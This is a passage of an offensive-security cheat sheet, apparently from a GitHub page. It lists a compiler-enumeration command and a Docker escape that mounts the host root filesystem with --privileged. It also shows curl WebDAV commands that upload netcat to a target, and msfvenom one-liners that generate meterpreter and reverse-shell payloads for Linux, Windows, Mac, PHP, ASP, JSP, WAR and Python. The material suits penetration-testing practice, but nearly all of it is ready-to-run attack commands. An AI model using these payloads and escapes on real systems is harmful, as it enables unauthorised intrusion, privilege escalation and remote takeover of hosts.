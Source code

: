 ```
`dpkg --list 2>/dev/null| grep compiler |grep -v decompiler 2>/dev/null && yum list installed 'gcc*' 2>/dev/null| grep gcc 2>/dev/null`     


### Docker tips
Since most likely Docker runs as root if you can execute docker commands as unpriviledged user you can very likely use Docker's privs instead.

`docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash` - note that the root folder from host is mounted as `/host`. You'll also see all processes running on host and be connected to same NICs.

You may want to look into escaping UTS and IPC namespacing with `--uts=host --ipc=host`

### Upload files using cUrl with WebDAV
```
curl -T nc.exe http://targetIP/nc.txt
curl -X MOVE -v -H "Destination:http://targetIP/nc.exe" http://targetIP/nc.txt
```

## msfvenom

### List payloads
msfvenom -l

### Binaries

* Linux     
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

* Windows     
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

* Mac     
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

### Web Payloads

* PHP     
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

* ASP     
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

* JSP     
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

* WAR     
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

### Scripting Payloads

* Python     
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
```